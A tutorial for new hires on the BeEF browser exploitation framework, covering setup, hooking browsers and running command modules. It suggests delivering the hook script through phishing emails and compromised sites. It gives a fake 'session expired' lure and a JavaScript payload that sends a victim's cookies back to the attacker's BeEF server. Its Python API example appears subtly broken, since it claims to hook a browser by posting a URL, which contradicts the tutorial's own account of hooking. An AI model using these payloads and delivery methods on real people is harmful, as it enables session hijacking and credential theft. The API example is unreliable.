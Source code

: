 ### BeEF (Browser Exploitation Framework) Tutorial for New Hires

**Disclaimer**: Use BeEF responsibly and only on systems where you have explicit permission to perform security testing.

### Step 1: Setting Up BeEF

#### Prerequisites
1. **Kali Linux**: BeEF comes pre-installed on Kali Linux. You can also install it on other Linux distributions, but for this tutorial, we will use Kali Linux.
2. **Internet Connection**: Required for downloading updates and additional modules.
3. **Administrative Privileges**: Required to install and run BeEF.

#### Installation on Kali Linux
BeEF is included in Kali Linux, but if it's not up-to-date, you can update it using the following commands:

```bash
sudo apt update
sudo apt install beef-xss
```

### Step 2: Starting BeEF

1. **Open a Terminal**: Launch a terminal in Kali Linux.
2. **Start BeEF**: Run the following command to start BeEF:

   ```bash
   sudo beef-xss
   ```

3. **Access BeEF Web Interface**:
   - Open a web browser and navigate to `http://localhost:3000/ui/panel`.
   - Use the default credentials to log in:
     - **Username**: beef
     - **Password**: beef

### Step 3: Understanding the Interface

Once logged in, you will see the BeEF control panel. Here are the main components:

1. **Hooks**: This section lists all the hooked browsers. A "hooked browser" is one that has executed the BeEF hook script.
2. **Commands**: This section contains various modules that you can use to interact with the hooked browsers.
3. **Logs**: This section logs all activities and interactions.

### Step 4: Hooking a Browser

To hook a browser, you need to make the target browser execute a small JavaScript payload.

#### Generating the Hook URL
1. In the BeEF control panel, go to the **Hook URL** section.
2. You will see a URL like `http://<your-ip>:3000/hook.js`.

#### Delivering the Hook
There are several ways to deliver the hook:
1. **Phishing Email**: Embed the hook URL in an email.
2. **Compromised Website**: Add the hook URL to a website you control.
3. **Social Engineering**: Use various social engineering techniques to get the target to visit the URL.

**Example**:
For demonstration purposes, you can open another browser on your local machine and navigate to `http://localhost:3000/demos/basic.html`. This page contains the hook script.

### Step 5: Exploiting the Hooked Browser

Once the target browser is hooked, it will appear in the **Hooks** section.

#### Running Commands
1. **Select the Hooked Browser**: Click on the browser entry in the Hooks section.
2. **Choose a Command Module**: Navigate to the Commands section and select a module. For example, choose `Social Engineering` > `Fake Notification`.
3. **Execute the Command**: Fill in the required parameters and click on `Execute`.

**Example**:
- **Module**: Fake Notification
- **Parameters**: 
  - Title: "Security Alert"
  - Text: "Your session has expired. Please log in again."
- **Execute**: This will display a fake notification on the hooked browser.

### Step 6: Analyzing Results

The output of each executed command can be viewed in the Logs section or directly within the command module interface. This helps you understand what happened on the target browser.

### Step 7: Custom Payloads and Scripts

BeEF allows you to write custom JavaScript payloads for specific tasks.

**Example**:
- **Task**: Steal cookies from the hooked browser.
- **Custom Script**:

  ```javascript
  beef.net.send('<%= @command_url %>', <%= @command_id %>, 'cookies='+document.cookie);
  ```

- **Execution**: Use the Custom JavaScript command module to execute this script.

### Step 8: Automating Tasks with BeEF API

BeEF provides an API for automating tasks and integrating with other tools.

**Example**:
- **API Request**: Hook a browser and execute a command automatically.
- **Script**:

  ```python
  import requests

  beef_url = "http://localhost:3000"
  api_token = "your_api_token"

  def hook_browser(url):
      hook_url = f"{beef_url}/api/hooks?token={api_token}"
      response = requests.post(hook_url, data={'url': url})
      return response.json()

  def execute_command(session_id, module, command):
      command_url = f"{beef_url}/api/modules/{session_id}/{module}?token={api_token}"
      response = requests.post(command_url, data=command)
      return response.json()

  # Hook a browser
  hook_response = hook_browser("http://target-site.com")
  session_id = hook_response['session_id']

  # Execute a command
  command_response = execute_command(session_id, "Fake Notification", {'title': 'Alert', 'text': 'Your session has expired.'})
  ```

### Conclusion

BeEF is a versatile and powerful tool for testing browser security. By following this tutorial, you should now have a basic understanding of how to set up and use BeEF, hook browsers, execute commands, and analyze results. Always remember to use BeEF ethically and within legal boundaries.

